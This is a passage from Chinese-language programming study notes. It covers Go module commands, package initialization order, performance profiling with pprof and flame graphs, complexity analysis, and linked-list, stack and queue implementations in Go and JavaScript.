go mod verify                                  # 验证依赖完整性
go mod download                               # 下载依赖到本地缓存
```

###### 依赖图分析

```go
# 查看依赖关系
go mod graph | head -20


# 查看为什么依赖某个包
go mod why github.com/gin-gonic/gin

# 查看所有依赖版本
go list -m all
```


```
# 生成可视化依赖图
# go mod graph
test/example go@1.21.0
go@1.21.0 toolchain@go1.21.0

go mod graph | awk '{print "\"" $1 "\" -> \"" $2 "\";"}' | \
awk 'BEGIN {print "digraph G {"} {print} END {print "}"}' | \
dot -Tpng -o deps.png

```




#### Package 包管理详解

##### 包声明和导入

```go
// math/math.go
package math  // 包声明

// 导出函数（首字母大写）
func Add(a, b int) int {
    return a + b
}

// 未导出函数（首字母小写）
func internalHelper() {
    // 只能在包内使用
}

// main.go
package main

import (
    "fmt"
    "github.com/username/myproject/math"  // 绝对路径导入
    "./utils"                             // 相对路径导入（不推荐） relative import paths are not supported in module mode
    m "github.com/user/math"              // 别名导入
    _ "github.com/user/initpkg"           // 只执行init函数
    . "github.com/user/constants"         // 直接使用（谨慎使用）
)

func main() {
    result := math.Add(1, 2)
    fmt.Println(result)
}
```

PS：一个文件夹下只能有一个package，可以分多个go文件，但是包声明相同。。


##### 包初始化顺序

初始化顺序三原则

```
// 规则1: 依赖优先 - 被导入的包先初始化 ***
// 规则2: 每个包只初始化一次
// 规则3: 初始化完成前会阻塞所有导入它的包
```

```go
// main.go
package main

import (
    "fmt"
    _ "github.com/user/project/database"
    _ "github.com/user/project/utils"
    _ "github.com/user/project/logger"
)

func init() {
    fmt.Println("main包init函数")
}

func main() {
    fmt.Println("main函数执行")
}

// database/db.go
package database

import "fmt"

var dbConn = connectDB()

func connectDB() string {
    fmt.Println("database包全局变量初始化")
    return "db_connection"
}

func init() {
    fmt.Println("database包init函数1")
}

func init() {
    fmt.Println("database包init函数2")
}

// utils/math.go
package utils

import "fmt"

var MathConstant = 3.14159

func init() {
    fmt.Println("utils包init函数")
}

// logger/log.go  
package logger

import (
    "fmt"
    _ "github.com/user/project/config"  // 二级依赖
)

var logLevel = "info"

func init() {
    fmt.Println("logger包init函数")
}

// config/config.go
package config

import "fmt"

func init() {
    fmt.Println("config包init函数")
}
```

输出：

```
config包init函数
//其他一级包的导入顺序好像是按照字母序
database包全局变量初始化
database包init函数1
database包init函数2
logger包init函数
utils包init函数
main包init函数
main函数执行
```


### **调试分析**

> net/http/pprof、火焰图go-torch

**pprof** 是 Go 语言官方提供的**性能分析工具**，它可以帮助你找出程序中的性能瓶颈，比如 CPU 消耗、内存分配、协程阻塞等问题。

词源解析：

```
p   - profile（分析、剖析）
prof - profiling（性能分析）
```

**pprof** = **p** + **prof** = **性能分析工具**

pprof 主要分析以下性能指标：

| 分析类型                | 作用              | 常用场景                   |
| :---------------------- | :---------------- | :------------------------- |
| **CPU Profiling**       | 分析 CPU 使用情况 | 找出计算密集型瓶颈         |
| **Memory Profiling**    | 分析内存分配      | 发现内存泄漏、优化内存使用 |
| **Block Profiling**     | 分析协程阻塞      | 找出锁竞争、IO等待问题     |
| **Goroutine Profiling** | 分析协程状态      | 诊断协程泄漏、死锁         |


**调试分析流程：**

1. **发现问题**：性能下降、内存增长、Goroutine泄漏
2. **收集数据**：使用pprof收集**CPU、内存、阻塞**等数据
3. **生成报告**：使用go tool pprof分析数据
4. **可视化分析**：生成火焰图、调用图
5. **定位问题**：识别热点函数、内存泄漏点
6. **优化修复**：修改代码解决问题
7. **验证效果**：重新分析确认问题解决

**常用工具链：**

- **pprof**：内置性能分析工具
- **go-torch**：生成火焰图
- **trace**：执行跟踪分析
- **graphviz**：生成调用关系图


#### 1. pprof 性能分析基础

##### 1.1 启用 pprof

```go
package main

import (
    "fmt"
    "log"
    "net/http"
    _ "net/http/pprof" // 自动注册 pprof 路由
    "runtime"
    "time"
)

func main() {
    fmt.Println("=== 启动 pprof 分析服务器 ===")
    
    // 在单独的 goroutine 中启动 pprof 服务器
    go func() {
        log.Println(http.ListenAndServe("localhost:6060", nil))
    }()
    
    // 模拟工作负载
    simulateWorkload()
}

func simulateWorkload() {
    fmt.Println("开始模拟工作负载...")
    
    // 模拟 CPU 密集型任务
    go cpuIntensiveTask()
    
    // 模拟内存分配
    go memoryIntensiveTask()
    
    // 模拟 goroutine 泄漏
    go goroutineLeak()
    
    // 保持程序运行
    select {}
}
```

##### 1.2 CPU 密集型任务模拟

```go
func cpuIntensiveTask() {
    for {
        // 模拟 CPU 计算
        for i := 0; i < 1000000; i++ {
            _ = i * i
        }
        time.Sleep(100 * time.Millisecond)
    }
}

// 斐波那契数列计算（高CPU消耗）
func fibonacci(n int) int {
    if n <= 1 {
        return n
    }
    return fibonacci(n-1) + fibonacci(n-2)
}

func heavyCalculation() {
    for {
        // 计算较大的斐波那契数
        _ = fibonacci(30)
        time.Sleep(50 * time.Millisecond)
    }
}
```

##### 1.3 内存密集型任务

```go
var globalData [][]byte

func memoryIntensiveTask() {
    for {
        // 分配内存但不释放（模拟内存泄漏）
        data := make([]byte, 10 * 1024 * 1024) // 10MB
        for i := range data {
            data[i] = byte(i % 256)
        }
        globalData = append(globalData, data)
        
        time.Sleep(1 * time.Second)
    }
}

// 字符串拼接导致的内存分配
func stringConcatenation() {
    var result string
    for i := 0; i < 1000; i++ {
        result += fmt.Sprintf("数据%d", i)
    }
}
```

##### 1.4 Goroutine 泄漏模拟

```go
func goroutineLeak() {
    for {
        // 启动但不退出的 goroutine
        go func() {
            ch := make(chan bool)
            <-ch // 永久阻塞
        }()
        time.Sleep(100 * time.Millisecond)
    }
}

// 通道阻塞导致的泄漏
func channelBlockLeak() {
    for i := 0; i < 10; i++ {
        go func(id int) {
            ch := make(chan int)
            // 发送到无人接收的通道
            ch <- id
        }(i)
    }
}
```


#### 2. pprof 端点详解

##### 2.1 pprof 可用端点

```go
func startProfilingServer() {
    fmt.Println("=== pprof 端点列表 ===")
    
    endpoints := []string{
        "http://localhost:6060/debug/pprof/",
        "http://localhost:6060/debug/pprof/heap",
        "http://localhost:6060/debug/pprof/profile?seconds=30",
        "http://localhost:6060/debug/pprof/trace?seconds=5",
        "http://localhost:6060/debug/pprof/block",
        "http://localhost:6060/debug/pprof/mutex",
        "http://localhost:6060/debug/pprof/goroutine",
    }
    
    for _, endpoint := range endpoints {
        fmt.Printf("可访问: %s\n", endpoint)
    }
}
```




##### 2.2 编程方式使用 pprof

```go
import (
    "os"
    "runtime/pprof"
)

func cpuProfileExample() {
    fmt.Println("\n=== 编程式 CPU 分析 ===")
    
    // 开始 CPU 分析
    f, err := os.Create("cpu.prof")
    if err != nil {
        log.Fatal("无法创建 CPU 分析文件:", err)
    }
    defer f.Close()
    
    if err := pprof.StartCPUProfile(f); err != nil {
        log.Fatal("无法启动 CPU 分析:", err)
    }
    defer pprof.StopCPUProfile()
    
    // 执行需要分析的代码
    performIntensiveOperation()
}

func performIntensiveOperation() {
    for i := 0; i < 1000000; i++ {
        // 模拟工作负载
        _ = i * i
        if i%10000 == 0 {
            fmt.Printf("处理进度: %d\n", i)
        }
    }
}

func memoryProfileExample() {
    fmt.Println("\n=== 编程式内存分析 ===")
    
    // 执行一些内存分配
    var data [][]byte
    for i := 0; i < 100; i++ {
        chunk := make([]byte, 1024 * 1024) // 1MB
        data = append(data, chunk)
    }
    
    // 写入内存分析文件
    f, err := os.Create("mem.prof")
    if err != nil {
        log.Fatal("无法创建内存分析文件:", err)
    }
    defer f.Close()
    
    if err := pprof.WriteHeapProfile(f); err != nil {
        log.Fatal("无法写入内存分析:", err)
    }
    
    fmt.Println("内存分析文件已生成: mem.prof")
}
```


#### 3. pprof 工具使用

##### 3.1 命令行分析工具

```go
# 查看可用端点
go tool pprof http://localhost:6060/debug/pprof/heap

# 30秒 CPU 分析
go tool pprof http://localhost:6060/debug/pprof/profile?seconds=30

# 交互式分析命令
(pprof) top10                    # 显示前10个最耗资源的函数
(pprof) list functionName        # 查看函数详细分析
(pprof) web                      # 生成调用图（需要graphviz）
(pprof) pdf                      # 生成PDF报告
(pprof) peek functionName        # 查看特定函数详情
(pprof) traces                   # 查看调用栈跟踪
```

##### 3.2 实际分析示例

```go
// 分析目标：性能瓶颈函数
type DataProcessor struct {
    cache map[string][]byte
}

func NewDataProcessor() *DataProcessor {
    return &DataProcessor{
        cache: make(map[string][]byte),
    }
}

func (dp *DataProcessor) ProcessData(data []byte) []byte {
    // 模拟复杂处理
    result := make([]byte, len(data)*2)
    
    for i := 0; i < len(data); i++ {
        // CPU 密集型操作
        for j := 0; j < 100; j++ {
            result[i*2] = data[i] + byte(j)
            result[i*2+1] = data[i] - byte(j)
        }
    }
    
    // 内存分配
    key := fmt.Sprintf("key_%d", len(data))
    dp.cache[key] = result
    
    return result
}

func benchmarkDataProcessor() {
    fmt.Println("\n=== 数据处理器性能测试 ===")
    
    processor := NewDataProcessor()
    
    // 生成测试数据
    testData := make([]byte, 1024)
    for i := range testData {
        testData[i] = byte(i % 256)
    }
    
    // 多次处理模拟负载
    for i := 0; i < 1000; i++ {
        result := processor.ProcessData(testData)
        _ = result // 使用结果避免优化
    }
    
    fmt.Printf("处理器缓存大小: %d\n", len(processor.cache))
}
```

#### 4. 火焰图生成和分析

##### 4.1 安装 go-torch

```bash
# 安装 go-torch
go install github.com/uber/go-torch@latest

# 安装 FlameGraph 脚本
git clone https://github.com/brendangregg/FlameGraph.git
export PATH=$PATH:/path/to/FlameGraph

# 生成火焰图
go-torch -u http://localhost:6060 --seconds 30 -f torch.svg
```


##### 4.2 火焰图分析示例

```go
// 复杂的调用链用于火焰图分析
type Service struct {
    db    *Database
    cache *Cache
}

type Database struct {
    data map[string]string
}

type Cache struct {
    items map[string]interface{}
}

func NewService() *Service {
    return &Service{
        db:    &Database{data: make(map[string]string)},
        cache: &Cache{items: make(map[string]interface{})},
    }
}

func (s *Service) HandleRequest(userID string) error {
    // 模拟请求处理调用链
    start := time.Now()
    
    // 1. 验证用户
    if err := s.validateUser(userID); err != nil {
        return err
    }
    
    // 2. 查询数据库
    data, err := s.queryDatabase(userID)
    if err != nil {
        return err
    }
    
    // 3. 处理业务
    result := s.processBusinessLogic(data)
    
    // 4. 更新缓存
    s.updateCache(userID, result)
    
    fmt.Printf("请求处理时间: %v\n", time.Since(start))
    return nil
}

func (s *Service) validateUser(userID string) error {
    // 模拟验证逻辑
    time.Sleep(1 * time.Millisecond)
    if userID == "" {
        return fmt.Errorf("无效用户ID")
    }
    return nil
}

func (s *Service) queryDatabase(userID string) (string, error) {
    // 模拟数据库查询
    time.Sleep(5 * time.Millisecond)
    if data, exists := s.db.data[userID]; exists {
        return data, nil
    }
    return "默认数据", nil
}

func (s *Service) processBusinessLogic(data string) string {
    // 模拟业务处理（CPU密集型）
    result := []byte(data)
    for i := 0; i < 1000; i++ {
        for j := range result {
            result[j] = result[j] + byte(i%256)
        }
    }
    return string(result)
}

func (s *Service) updateCache(userID string, data string) {
    // 模拟缓存更新
    time.Sleep(2 * time.Millisecond)
    s.cache.items[userID] = data
}

func generateLoadForFlamegraph() {
    fmt.Println("\n=== 生成火焰图工作负载 ===")
    
    service := NewService()
    
    // 启动多个goroutine生成负载
    for i := 0; i < 10; i++ {
        go func(id int) {
            for {
                userID := fmt.Sprintf("user%d", id)
                service.HandleRequest(userID)
                time.Sleep(100 * time.Millisecond)
            }
        }(i)
    }
}
```


## 数据结构和算法

### **复杂度分析**

> 空间复杂度、时间复杂度（平均/最好/最坏）


#### **时间复杂度 (Time Complexity)**

##### **1. 常见时间复杂度等级**（从小到大）

| 复杂度         | 名称       | 示例         | 描述                     |
| :------------- | :--------- | :----------- | :----------------------- |
| **O(1)**       | 常数时间   | 数组访问     | 执行时间不随输入规模变化 |
| **O(log n)**   | 对数时间   | 二分查找     | 每次操作减少问题规模     |
| **O(√n)**      | 平方根时间 | 判断质数     | 介于对数与线性之间       |
| **O(n)**       | 线性时间   | 遍历数组     | 执行时间与输入规模成正比 |
| **O(n log n)** | 线性对数   | 快速排序     | 高效排序算法的复杂度     |
| **O(n²)**      | 平方时间   | 冒泡排序     | 嵌套循环的典型复杂度     |
| **O(2ⁿ)**      | 指数时间   | 斐波那契递归 | 每增加一个元素，时间翻倍 |
| **O(n!)**      | 阶乘时间   | 旅行商问题   | 所有排列组合的暴力求解   |

##### **2. 三种情况分析**

```
// 示例：线性搜索算法
function linearSearch(arr, target) {
    for (let i = 0; i < arr.length; i++) {  // O(n)
        if (arr[i] === target) {            // O(1)
            return i;                       // O(1)
        }
    }
    return -1;                              // O(1)
}
```

| 情况         | 条件               | 时间复杂度        | 说明                 |
| :----------- | :----------------- | :---------------- | :------------------- |
| **最好情况** | 目标在第一个位置   | **O(1)**          | 立即找到，常数时间   |
| **平均情况** | 目标在中间位置     | **O(n/2) = O(n)** | 平均需要检查一半元素 |
| **最坏情况** | 目标不存在或在最后 | **O(n)**          | 需要检查所有元素     |


#### **空间复杂度 (Space Complexity)**

##### **1. 空间复杂度类型**

```javascript
// 示例分析不同空间复杂度
function exampleAlgorithms() {
    // O(1) - 原地算法，只使用常数空间
    function swap(arr, i, j) {
        const temp = arr[i];  // 只使用固定数量的变量
        arr[i] = arr[j];
        arr[j] = temp;
    }
    
    // O(n) - 线性空间，与输入规模成正比
    function copyArray(arr) {
        const newArr = [];                    // O(n) 空间
        for (let i = 0; i < arr.length; i++) { // O(1) 额外空间
            newArr.push(arr[i] * 2);
        }
        return newArr;                         // 总空间: O(n)
    }
    
    // O(n²) - 平方空间（较少见）
    function generateMatrix(n) {
        const matrix = [];
        for (let i = 0; i < n; i++) {
            matrix.push(new Array(n).fill(0)); // n × n 矩阵
        }
        return matrix;                         // 总空间: O(n²)
    }
}
```

##### **2. 空间复杂度分析要点**

| 类型         | 空间复杂度 | 示例             | 说明                           |
| :----------- | :--------- | :--------------- | :----------------------------- |
| **原地算法** | O(1)       | 冒泡排序、堆排序 | 只使用常数个额外变量           |
| **线性空间** | O(n)       | 归并排序、哈希表 | 需要与输入规模成比例的额外空间 |
| **递归空间** | O(h)       | 二叉树遍历       | h为递归深度（调用栈空间）      |

#### **实际算法分析示例**

##### **示例1：快速排序复杂度分析**

```javascript
function quickSort(arr) {
    if (arr.length <= 1) return arr;           // O(1)
    
    const pivot = arr[0];                      // O(1)
    const left = [];                           // O(n) 最坏
    const right = [];                          // O(n) 最坏
    
    for (let i = 1; i < arr.length; i++) {     // O(n)
        if (arr[i] < pivot) left.push(arr[i]); // O(1)
        else right.push(arr[i]);               // O(1)
    }
    
    // 递归调用
    return [...quickSort(left), pivot, ...quickSort(right)]; // 递归深度
}
```

**时间复杂度分析：**

- **最好情况**：O(n log n) - 每次划分都很均衡
- **平均情况**：O(n log n) - 数学期望值
- **最坏情况**：O(n²) - 数组已排序，每次选最小/最大作基准

**空间复杂度分析：**

- **最好情况**：O(log n) - 递归调用栈深度
- **最坏情况**：O(n) - 递归深度达到n


##### **示例2：斐波那契数列不同实现**

```javascript
// 方法1：递归（指数时间）
function fibonacciRecursive(n) {
    if (n <= 1) return n;                      // O(1)
    return fibonacciRecursive(n-1) + fibonacciRecursive(n-2); // O(2ⁿ)
}
// 时间复杂度: O(2ⁿ)   空间复杂度: O(n) - 调用栈深度

// 方法2：动态规划（线性时间）
function fibonacciDP(n) {
    if (n <= 1) return n;
    const dp = new Array(n+1);                // O(n) 空间
    dp[0] = 0; dp[1] = 1;
    
    for (let i = 2; i <= n; i++) {            // O(n) 时间
        dp[i] = dp[i-1] + dp[i-2];            // O(1)
    }
    return dp[n];
}
// 时间复杂度: O(n)   空间复杂度: O(n)

// 方法3：优化空间（常数空间）
function fibonacciOptimized(n) {
    if (n <= 1) return n;
    let a = 0, b = 1;                        // O(1) 空间
    
    for (let i = 2; i <= n; i++) {            // O(n) 时间
        [a, b] = [b, a + b];                  // O(1)
    }
    return b;
}
// 时间复杂度: O(n)   
```


#### **复杂度分析技巧**

##### **1. 循环分析规则**

```go
// 规则1：单层循环 - O(n)
for (let i = 0; i < n; i++) { }              // O(n)

// 规则2：嵌套循环 - O(n²)
for (let i = 0; i < n; i++) {                 // O(n)
    for (let j = 0; j < n; j++) { }           // O(n) × O(n) = O(n²)
}

// 规则3：不同规模的循环 - O(n × m)
for (let i = 0; i < n; i++) {                 // O(n)
    for (let j = 0; j < m; j++) { }           // O(m) × O(n) = O(n × m)
}

// 规则4：循环步长加倍 - O(log n)
for (let i = 1; i < n; i *= 2) { }           // O(log n)
```


##### **2. 递归复杂度分析**

```go
// 递归关系: T(n) = aT(n/b) + f(n)
function recursiveExample(n) {
    if (n <= 1) return;                       // O(1)
    
    for (let i = 0; i < n; i++) {             // O(n)
        // 一些操作
    }
    
    recursiveExample(n/2);                    // 递归调用
    recursiveExample(n/2);                    // 递归调用
}
// 主定理: T(n) = 2T(n/2) + O(n) => O(n log n)
```

==>一般都包含 logN


#### **实用分析表格**

##### **常见数据结构操作复杂度**

| 数据结构       | 访问     | 搜索（值） | 插入     | 删除     | 空间复杂度 |
| :------------- | :------- | :--------- | :------- | :------- | :--------- |
| **数组**       | O(1)     | O(n)       | O(n)     | O(n)     | O(n)       |
| **链表**       | O(n)     | O(n)       | O(1)     | O(1)     | O(n)       |
| **哈希表**     | O(1)     | O(1)       | O(1)     | O(1)     | O(n)       |
| **平衡二叉树** | O(log n) | O(log n)   | O(log n) | O(log n) | O(n)       |


##### **排序算法复杂度比较**

| 排序算法     | 最好时间   | 平均时间   | 最坏时间   | 空间复杂度 | 稳定性 |
| :----------- | :--------- | :--------- | :--------- | :--------- | :----- |
| **冒泡排序** | O(n)       | O(n²)      | O(n²)      | O(1)       | 稳定   |
| **快速排序** | O(n log n) | O(n log n) | O(n²)      | O(log n)   | 不稳定 |
| **归并排序** | O(n log n) | O(n log n) | O(n log n) | O(n)       | 稳定   |
| **堆排序**   | O(n log n) | O(n log n) | O(n log n) | O(1)       | 不稳定 |

------

##### 💡 **分析技巧总结**

1. **关注增长趋势**：忽略常数项和低阶项，只保留最高阶项
2. **考虑最坏情况**：工程上通常以最坏情况作为性能保证
3. **空间时间权衡**：很多时候可以用空间换时间，或用时间省空间
4. **实际测试验证**：理论分析结合实际性能测试


### **线性表**

> 数组/链表/队列/堆栈，FIFO/LIFO模型，面试蛮多链表操作题目（如链表反转）

**核心要点：**

1. **数组**：连续内存，随机访问快，插入删除慢
2. **链表**：离散内存，顺序访问，插入删除快
3. **栈**：LIFO，函数调用、括号匹配
4. **队列**：FIFO，消息队列、BFS

**面试重点：**

- 链表反转（迭代/递归）
- 环检测（快慢指针）
- 合并有序链表
- 删除倒数第N个节点

#### 0. 线性表基础概念

##### 0.1 线性表定义

```javascript
// 线性表：数据元素之间存在一对一的关系
class LinearList {
    constructor() {
        this.elements = []; // 数据元素的有序集合
    }
    
    // 基本操作
    isEmpty() { return this.elements.length === 0; }
    size() { return this.elements.length; }
    get(i) { return this.elements[i]; }
    insert(i, element) { this.elements.splice(i, 0, element); }
    remove(i) { return this.elements.splice(i, 1)[0]; }
}
```

##### 0.2 线性表分类

```javascript
// 线性表的两种物理结构
const linearStructures = {
    // 顺序存储 - 数组
    array: {
        type: "顺序存储",
        example: [1, 2, 3, 4, 5],
        features: ["连续内存", "随机访问", "大小固定"]
    },
    
    // 链式存储 - 链表  
    linkedList: {
        type: "链式存储",
        example: "1 -> 2 -> 3 -> 4 -> 5",
        features: ["离散内存", "顺序访问", "动态大小"]
    }
};
```

#### 1. 数组（Array）实现

##### 1.1 基础数组操作

```go
package main

import "fmt"

func arrayBasics() {
    fmt.Println("=== Go 数组基础 ===")
    
    // 1. 数组声明和初始化
    var arr1 [5]int                    // 声明
    arr2 := [3]int{1, 2, 3}           // 初始化
    arr3 := [...]int{1, 2, 3, 4, 5}   // 编译器推断长度
    
    fmt.Printf("arr1: %v\n", arr1)
    fmt.Printf("arr2: %v\n", arr2)
    fmt.Printf("arr3: %v\n", arr3)
    
    // 2. 数组遍历
    for i := 0; i < len(arr3); i++ {
        fmt.Printf("arr3[%d] = %d\n", i, arr3[i])
    }
    
    for index, value := range arr3 {
        fmt.Printf("索引 %d: 值 %d\n", index, value)
    }
}
```

##### 1.2 动态数组（Slice）

```go
func sliceOperations() {
    fmt.Println("\n=== Go Slice 动态数组 ===")
    
    // 创建切片
    slice1 := make([]int, 5)          // 长度5，容量5
    slice2 := make([]int, 3, 10)       // 长度3，容量10
    slice3 := []int{1, 2, 3, 4, 5}    // 直接初始化
    
    fmt.Printf("slice1: len=%d cap=%d %v\n", len(slice1), cap(slice1), slice1)
    fmt.Printf("slice2: len=%d cap=%d %v\n", len(slice2), cap(slice2), slice2)
    fmt.Printf("slice3: len=%d cap=%d %v\n", len(slice3), cap(slice3), slice3)
    
    // 切片操作
    slice3 = append(slice3, 6, 7, 8)  // 追加元素
    fmt.Printf("追加后: len=%d cap=%d %v\n", len(slice3), cap(slice3), slice3)
    
    // 切片切割
    subSlice := slice3[2:5]           // [3,4,5]
    fmt.Printf("子切片: %v\n", subSlice)
}
```

#### 2. 链表（Linked List）实现

##### 2.1 链表节点定义

```go
type ListNode struct {
    Val  int
    Next *ListNode
}

func NewListNode(val int) *ListNode {
    return &ListNode{Val: val}
}
```

##### 2.2 单链表实现

```go
type LinkedList struct {
    Head *ListNode
    Size int
}

func NewLinkedList() *LinkedList {
    return &LinkedList{}
}

// 头部插入
func (l *LinkedList) InsertAtHead(val int) {
    newNode := NewListNode(val)
    newNode.Next = l.Head
    l.Head = newNode
    l.Size++
}

// 尾部插入
func (l *LinkedList) InsertAtTail(val int) {
    newNode := NewListNode(val)
    
    if l.Head == nil {
        l.Head = newNode
    } else {
        current := l.Head
        for current.Next != nil {
            current = current.Next
        }
        current.Next = newNode
    }
    l.Size++
}

// 指定位置插入
func (l *LinkedList) InsertAtIndex(index, val int) {
    if index < 0 || index > l.Size {
        panic("索引越界")
    }
    
    if index == 0 {
        l.InsertAtHead(val)
        return
    }
    
    newNode := NewListNode(val)
    current := l.Head
    
    for i := 0; i < index-1; i++ {
        current = current.Next
    }
    
    newNode.Next = current.Next
    current.Next = newNode
    l.Size++
}

// 遍历链表
func (l *LinkedList) Traverse() []int {
    result := make([]int, 0)
    current := l.Head
    
    for current != nil {
        result = append(result, current.Val)
        current = current.Next
    }
    
    return result
}

// 查找元素
func (l *LinkedList) Find(val int) int {
    current := l.Head
    index := 0
    
    for current != nil {
        if current.Val == val {
            return index
        }
        current = current.Next
        index++
    }
    
    return -1
}
```

#### 3. 链表经典面试题

##### 3.1 链表反转（迭代）

```go
func reverseLinkedList(head *ListNode) *ListNode {
    var prev *ListNode
    current := head
    
    for current != nil {
        next := current.Next  // 保存下一个节点
        current.Next = prev   // 反转指针
        prev = current        // 移动prev
        current = next       // 移动current
    }
    
    return prev // 新的头节点
}

func testReverse() {
    fmt.Println("\n=== 链表反转测试 ===")
    
    // 创建链表: 1->2->3->4->5
    list := NewLinkedList()
    for i := 1; i <= 5; i++ {
        list.InsertAtTail(i)
    }
    
    fmt.Printf("原链表: %v\n", list.Traverse())
    
    list.Head = reverseLinkedList(list.Head)
    fmt.Printf("反转后: %v\n", list.Traverse())
}
```

##### 3.2 链表反转（递归）

```go
func reverseLinkedListRecursive(head *ListNode) *ListNode {
    if head == nil || head.Next == nil {
        return head
    }
    
    newHead := reverseLinkedListRecursive(head.Next)
    head.Next.Next = head
    head.Next = nil
    
    return newHead
}
```

##### 3.3 检测环（快慢指针）

```go
func hasCycle(head *ListNode) bool {
    if head == nil || head.Next == nil {
        return false
    }
    
    slow, fast := head, head
    
    for fast != nil && fast.Next != nil {
        slow = slow.Next          // 慢指针走一步
        fast = fast.Next.Next     // 快指针走两步
        
        if slow == fast {         // 相遇说明有环
            return true
        }
    }
    
    return false
}

func testCycleDetection() {
    fmt.Println("\n=== 环检测测试 ===")
    
    // 创建有环链表: 1->2->3->4->5->2
    node1 := NewListNode(1)
    node2 := NewListNode(2)
    node3 := NewListNode(3)
    node4 := NewListNode(4)
    node5 := NewListNode(5)
    
    node1.Next = node2
    node2.Next = node3
    node3.Next = node4
    node4.Next = node5
    node5.Next = node2 // 形成环
    
    fmt.Printf("链表是否有环: %t\n", hasCycle(node1))
}
```

##### 3.4 合并两个有序链表

```go
func mergeTwoLists(l1, l2 *ListNode) *ListNode {
    dummy := &ListNode{} // 虚拟头节点
    current := dummy
    
    for l1 != nil && l2 != nil {
        if l1.Val <= l2.Val {
            current.Next = l1
            l1 = l1.Next
        } else {
            current.Next = l2
            l2 = l2.Next
        }
        current = current.Next
    }
    
    // 连接剩余部分
    if l1 != nil {
        current.Next = l1
    } else {
        current.Next = l2
    }
    
    return dummy.Next
}

func testMerge() {
    fmt.Println("\n=== 合并有序链表 ===")
    
    // 链表1: 1->3->5
    list1 := NewLinkedList()
    list1.InsertAtTail(1)
    list1.InsertAtTail(3)
    list1.InsertAtTail(5)
    
    // 链表2: 2->4->6
    list2 := NewLinkedList()
    list2.InsertAtTail(2)
    list2.InsertAtTail(4)
    list2.InsertAtTail(6)
    
    merged := mergeTwoLists(list1.Head, list2.Head)
    
    // 遍历合并结果
    result := make([]int, 0)
    current := merged
    for current != nil {
        result = append(result, current.Val)
        current = current.Next
    }
    fmt.Printf("合并结果: %v\n", result)
}
```

##### 3.5 删除倒数第N个节点

```go
func removeNthFromEnd(head *ListNode, n int) *ListNode {
    dummy := &ListNode{Next: head}
    fast, slow := dummy, dummy
    
    // 快指针先走n+1步
    for i := 0; i <= n; i++ {
        fast = fast.Next
    }
    
    // 快慢指针同时前进
    for fast != nil {
        fast = fast.Next
        slow = slow.Next
    }
    
    // 删除节点
    slow.Next = slow.Next.Next
    
    return dummy.Next
}
```

#### 4. 堆栈（Stack）- LIFO 模型

##### 4.1 基于Slice的栈

```go
type Stack struct {
    items []int
}

func NewStack() *Stack {
    return &Stack{items: make([]int, 0)}
}

func (s *Stack) Push(item int) {
    s.items = append(s.items, item)
}

func (s *Stack) Pop() int {
    if s.IsEmpty() {
        panic("栈为空")
    }
    
    item := s.items[len(s.items)-1]
    s.items = s.items[:len(s.items)-1]
    return item
}

func (s *Stack) Peek() int {
    if s.IsEmpty() {
        panic("栈为空")
    }
    return s.items[len(s.items)-1]
}

func (s *Stack) IsEmpty() bool {
    return len(s.items) == 0
}

func (s *Stack) Size() int {
    return len(s.items)
}
```

##### 4.2 基于链表的栈

```go
type LinkedStack struct {
    top  *ListNode
    size int
}

func NewLinkedStack() *LinkedStack {
    return &LinkedStack{}
}

func (s *LinkedStack) Push(val int) {
    newNode := &ListNode{Val: val}
    newNode.Next = s.top
    s.top = newNode
    s.size++
}

func (s *LinkedStack) Pop() int {
    if s.IsEmpty() {
        panic("栈为空")
    }
    
    val := s.top.Val
    s.top = s.top.Next
    s.size--
    return val
}

func (s *LinkedStack) Peek() int {
    if s.IsEmpty() {
        panic("栈为空")
    }
    return s.top.Val
}

func (s *LinkedStack) IsEmpty() bool {
    return s.top == nil
}

func (s *LinkedStack) Size() int {
    return s.size
}
```

##### 4.3 栈的应用：括号匹配

```go
func isValidParentheses(s string) bool {
    stack := NewStack()
    
    for _, char := range s {
        switch char {
        case '(', '[', '{':
            stack.Push(int(char))
        case ')':
            if stack.IsEmpty() || stack.Pop() != '(' {
                return false
            }
        case ']':
            if stack.IsEmpty() || stack.Pop() != '[' {
                return false
            }
        case '}':
            if stack.IsEmpty() || stack.Pop() != '{' {
                return false
            }
        }
    }
    
    return stack.IsEmpty()
}

func testParentheses() {
    fmt.Println("\n=== 括号匹配测试 ===")
    testCases := []string{"()", "()[]{}", "(]", "([)]", "{[]}"}
    
    for _, testCase := range testCases {
        fmt.Printf("%s: %t\n", testCase, isValidParentheses(testCase))
    }
}
```


#### 5. 队列（Queue）- FIFO 模型

##### 5.1 基于Slice的队列

```go
type Queue struct {
    items []int
}

func NewQueue() *Queue {
    return &Queue{items: make([]int, 0)}
}

func (q *Queue) Enqueue(item int) {
    q.items = append(q.items, item)
}

func (q *Queue) Dequeue() int {
    if q.IsEmpty() {
        panic("队列为空")
    }
    
    item := q.items[0]
    q.items = q.items[1:]
    return item
}

func (q *Queue) Front() int {
    if q.IsEmpty() {
        panic("队列为空")
    }
    return q.items[0]
}

func (q *Queue) IsEmpty() bool {
    return len(q.items) == 0
}

func (q *Queue) Size() int {
    return len(q.items)
}
```

##### 5.2 基于链表的队列

```go
type LinkedQueue struct {
    front *ListNode
    rear  *ListNode
    size  int
}

